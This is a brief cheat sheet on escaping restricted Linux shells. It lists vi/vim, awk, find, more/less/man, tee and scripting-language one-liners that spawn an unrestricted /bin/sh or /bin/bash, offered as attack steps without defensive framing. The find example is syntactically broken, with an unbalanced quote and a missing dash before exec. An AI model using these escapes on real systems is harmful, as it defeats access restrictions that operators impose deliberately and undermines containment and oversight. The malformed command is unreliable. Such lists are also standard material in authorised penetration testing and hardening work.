 Escaping/Bypass  From Jail/Restricted Linux Shells

Editors
One of the most well documented techniques is to spawn a shell from within an editor such as 'vi' or 'vim'. Open any file using one of these editors and type the following and execute it from within the editor:
    :set shell=/bin/bash

Next, type and execute:
    :shell

Another method is to type:
    :! /bin/bash


Awk Command
If you can run 'awk', you can attempt to execute a shell from within it.
Type the following:
    awk 'BEGIN {system("/bin/sh")}'

Find Command
If the 'find' command is present, you can attempt to use the '-exec' function within it.
Type the following:
    find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

More, Less, and Man Commands
There is a known escape within these commands. After you use the 'more', 'less', or 'man' command with a file, type '!' followed by a command. For instance, try the following once inside the file:
    '! /bin/sh'
    '!/bin/sh'
    '!bash'

Like the shell escape in 'awk' and 'find', if successful, you'll be sitting at an unrestricted shell prompt. Note you can try different shells, and the space after the '!' may not matter.

Tee Command
If you do not have access to an editor, and would like to create a script, you can make use of the 'tee' command. Since you cannot make use of '>' or '>>', the 'tee' command can help you direct your output when used in tandem with the 'echo' command. This is not a shell escape in of itself, but consider the following:
    echo "evil script code" | tee script.sh

Try invoking a SHELL through your favorite language:
    python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
    perl -e 'exec "/bin/sh";'
    perl: exec "/bin/sh";
    ruby: exec "/bin/sh"
    lua: os.execute('/bin/sh')
    irb(main:001:0> exec "/bin/sh"
    python -c 'import pty;pty.spawn("/bin/bash")'
    echo os.system('/bin/bash')
    echo /usr/local/rbin/*
    /bin/sh -i
Most likely, you will not be able to execute any of these, but it's worth a shot in case they're installed.


Reference: https://ud64.com/ask/61/escaping-bypass-from-jail-restricted-linux-shells
